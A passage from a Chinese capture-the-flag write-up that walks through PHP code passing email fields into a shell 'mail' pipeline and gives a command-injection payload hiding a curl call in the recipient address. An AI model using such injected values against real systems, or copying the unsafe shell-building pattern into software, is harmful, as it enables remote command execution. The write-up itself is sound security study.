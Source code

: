 ```bash
        Response::output([]);
    }
```

然后调用了`EamilSender::send()`​方法

然后我们再来看这个方法是怎么实现的

```bash
class Mail {
    static function send (string $to, string $title, string $body)
    {
        Logger::Log(
            'Sent!, to=' . $to . ', subject=' . $title . ', body: ' . $body,
            Logger::SCOPE_EMAIL
        );

        $from = YAML_EMAIL_NAME . '<' . YAML_EMAIL_FROM . '>';

        // $result = exec("export LANG=en_US.UTF-8 && echo -e '{$body}' | mail -r '{$from}' -s '{$title}' '{$to}' > /dev/null &");

        $result = [];
        Command::run([
            'echo', '-e', Command::wrapArgument($body), '|',
            'mail', '-r', Command::wrapArgument($from),
            '-s', Command::wrapArgument($title), Command::wrapArgument($to),
            '> /dev/null &'
        ], $result);

        $result = implode('', $result);

        Logger::Log(
            'from:' . $from . ' Sent result:' .  json_encode($result),
            Logger::SCOPE_EMAIL
        );

        return true;
    }
}
```

调用`exec`​函数来进行发送邮件，所以我们可以在邮箱后面拼接命令实现任意命令执行

`payload`​ : `1@qq.com'xx|curl target;xx'xx`​

## zhi(赛后)

当时没时间做，看大佬的`wp`​复现

参考链接 : [https://pysnow.cn/archives/715/](https://pysnow.cn/archives/715/)
